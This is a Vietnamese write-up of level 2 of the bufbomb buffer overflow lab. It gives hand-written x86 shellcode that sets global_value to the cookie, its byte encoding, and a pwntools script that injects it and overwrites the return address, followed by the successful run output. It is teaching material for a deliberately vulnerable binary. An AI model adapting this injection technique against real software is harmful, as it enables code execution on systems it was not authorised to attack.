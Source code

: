 # Level 2
## Task
Buffer overflow hàm `getbuf` để thực thi được hàm `bang` với `global_value == cookie`.  
```c
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    printf("Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}
```

## Solution
Tương tự như các level trước, chúng ta vẫn sẽ overflow buffer có độ dài `40` bytes. Nhưng ở level này, chúng ta cần inject shellcode để có thể set giá trị của `global_value` bằng với giá trị `cookie`.  

Trước tiên, để gán được giá trị mới cho `global_value`, chúng ta cần biết được địa chỉ của `global_value`. Trong IDA Pro, chúng ta có thể xem được địa chỉ của biến `global_value`.  
```
.bss:8013F160 global_value    dd ?
```  

Và cả địa chỉ của biến `cookie`.  
```
.bss:8013F158 cookie          dd ?
```  

Vậy shellcode của chúng ta như sau:  
```asm
movl $0x8013F160,%eax
movl $0x8013F158,%ebx
movl (%ebx),%ebx
movl %ebx,(%eax)
push $0x80139b69
push $0x80139b69
ret
```  

> `0x8013F160` là địa chỉ của biến `global_value`.
> `0x8013F158` là địa chỉ của biến `cookie`.
> `0x80139B69` là địa chỉ của hàm `bang`.  

Byte biểu diễn của shellcode:  
```
└─$ objdump -d shellcode.o

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   b8 60 f1 13 80          mov    $0x8013f160,%eax
   5:   bb 58 f1 13 80          mov    $0x8013f158,%ebx
   a:   8b 1b                   mov    (%ebx),%ebx
   c:   89 18                   mov    %ebx,(%eax)
   e:   68 69 9b 13 80          push   $0x80139b69
  13:   68 69 9b 13 80          push   $0x80139b69
  18:   c3                      ret
```

Tiếp theo, chúng ta sẽ tìm địa chỉ để ghi đè vào `return address`.  
Ở đây, vì shellcode sẽ được chèn vào đầu chuỗi nhập nên giá trị mà chúng ta sẽ ghi đè lên `return address` chính là địa chỉ của chuỗi nhập. Trong quá trình debug thì chúng ta tìm được địa chỉ là:  
```
pwndbg> p/x $eax
$1 = 0x55683cf8
```  

Vậy `exploit_payload` của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `0x28` bytes sẽ chứa shellcode và các giá trị padding, `0x4` bytes tiếp theo để ghi đè `saved %ebp`, và `0x4` bytes cuối cùng để ghi đè `return address`.  

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo 1 process cho chương trình bufbomb
io = process(['./bufbomb', '-u', '09821978'])

# tạo shellcode
shellcode = b'\xb8\x60\xf1\x13\x80\xbb\x58\xf1\x13\x80\x8b\x1b\x89\x18\x68\x69\x9b\x13\x80\x68\x69\x9b\x13\x80\xc3'
# tạo exploit_payload
# \x90 là byte biểu diễn cho lệnh nop (no operation)
exploit_payload = shellcode + b'\x90' * (0x28 + 0x4 - len(shellcode))
# chèn địa chỉ của shellcode vào payload để ghi đè return address
exploit_payload += p32(0x55683cf8)

print(f"{exploit_payload = }")

io.sendline(exploit_payload)
io.interactive()
```  

Chạy script.  
```
└─$ python3 level2.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 365
exploit_payload = b'\xb8`\xf1\x13\x80\xbbX\xf1\x13\x80\x8b\x1b\x89\x18hi\x9b\x13\x80hi\x9b\x13\x80\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf8<hU'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 365)
Userid: 09821978
Cookie: 0x31f21393
Type string:Bang!: You set global_value to 0x31f21393
VALID
NICE JOB!
```  
> Thành công!
